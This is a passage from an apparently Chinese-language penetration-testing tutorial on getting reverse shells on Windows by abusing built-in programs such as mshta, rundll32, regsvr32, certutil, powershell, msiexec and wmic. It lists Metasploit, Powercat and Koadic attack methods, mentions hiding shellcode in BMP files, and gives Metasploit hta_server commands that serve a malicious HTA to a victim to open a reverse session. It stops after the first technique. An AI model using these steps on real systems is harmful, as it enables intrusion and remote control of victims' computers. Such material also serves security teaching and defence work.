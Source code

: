 这个之前尝试是可以弹shell的，今天不知道为啥不行…..我改天再试试看，原理就是把shellcode放入bmp文件中



# 0x04 get-reverse-shell

表中的内容

**Mshta.exe**

- 通过Metasploit的HTA Web Server启动HTA攻击

**RUNDLL32.EXE**

- 通过SMB交付Metasploit启动Rundll32攻击

**Regsvr32.exe**

- 通过Metasploit的脚本Web交付启动Regsvr32

**Certutil.exe**

- 通过Msfvenom C＃shellcode启动MSbuild攻击

**Powershell.exe**

- 通过Powershell启动Powercat攻击
- 通过Powershell启动cscript.exe
- 通过Powershell启动批处理文件攻击

**msiexec.exe**

- 通过msfvenom启动msiexec攻击

**Wmic.exe**

- 通过Koadic发起Wmic.exe攻击

## 一、Mshta.exe

Mshta.exe运行Microsoft HTML应用程序主机，Windows OS实用程序负责运行**HTA**（HTML应用程序）文件。我们可以运行JavaScript或Visual的HTML文件。您可以使用Microsoft MSHTA.exe工具解释这些文件。

Metasploit包含“HTA Web Server”模块，可生成恶意hta文件。此模块托管HTML应用程序（HTA），打开时将通过Powershell运行有效负载。当用户导航到HTA文件时，在执行有效负载之前，IE将提示他们两次。

```bash
use exploit/windows/misc/hta_server
msf exploit(windows/misc/hta_server) > set srvhost 192.168.1.109
msf exploit(windows/misc/hta_server) > set lhost 192.168.1.109
msf exploit(windows/misc/hta_server) > exploit
```



现在通过受害者计算机上的mshta.exe（易受RCE攻击）运行恶意代码以获取计时器会话。

![img](https://i0.wp.com/3.bp.blogspot.com/-vRQoGXf6Hxc/XERxDCNVrRI/AAAAAAAAcIA/-HNjlqYKAjQpdD2BUOGPCfcE3-Qn1RfwwCLcBGAs/s1600/1.png?w=687&ssl=1)

一旦您在mshta.exe的帮助下在远程计算机上执行恶意hta文件，您将在本地计算机（Kali Linux）上获得反向连接。
